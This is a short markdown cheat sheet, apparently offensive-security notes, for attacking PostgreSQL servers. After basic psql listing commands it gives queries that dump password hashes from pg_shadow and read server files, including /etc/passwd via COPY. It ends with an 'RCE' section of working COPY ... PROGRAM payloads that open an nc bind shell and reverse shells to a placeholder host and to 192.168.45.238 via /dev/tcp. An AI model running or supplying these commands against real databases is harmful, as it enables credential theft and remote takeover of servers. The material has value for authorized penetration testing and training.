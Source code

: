 ## Connect to Database
```
psql -U <username> -h <host> -p <port>
```
## Commands
```
\l
\c <DATABASE>
\dt
\dt *
\d <TABLE>
\du
\du <username>
\du *
```
Get User Roles and Privileges
```
SELECT   
      r.rolname,   
      r.rolsuper,   
      r.rolinherit,  
      r.rolcreaterole,  
      r.rolcreatedb,  
      r.rolcanlogin,  
      r.rolconnlimit, r.rolvaliduntil,  
  ARRAY(SELECT b.rolname  
        FROM pg_catalog.pg_auth_members m  
        JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid)  
        WHERE m.member = r.oid) as memberof  
, r.rolreplication  
FROM pg_catalog.pg_roles r  
ORDER BY 1;
```
Note: Using asterisk can list everything!
List database usernames and their hashed passwords
```
select * from pg_shadow;
```
`pg_shadow`** is a **PostgreSQL system catalog (a special internal table)**

List content of PostgreSQL's data directory from the server’s perspective
```
select pg_ls_dir('./');
```
To read server file from `postgres`
```
pg_read_file(filename text, offset integer, length integer [, missing_ok boolean])

select pg_read_file('PG_VERSION', 0, 200);
```
Create a table and load a local file from the host into it for reading
```
postgres-# CREATE TABLE temp(t TEXT);  
postgres-# COPY temp FROM '/etc/passwd';
postgres-# SELECT * FROM temp limit 1 offset 0;
---------------------------------
 root:x:0:0:root:/root:/bin/bash
```
## RCE
```
COPY (SELECT 'some text') TO PROGRAM 'bash -c "nc -l -p 1234 -e /bin/bash"';

CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f';
COPY shell FROM PROGRAM 'bash -c "bash -i 5<> /dev/tcp/192.168.45.238/80 0<&5 1>&5 2>&5"';
```
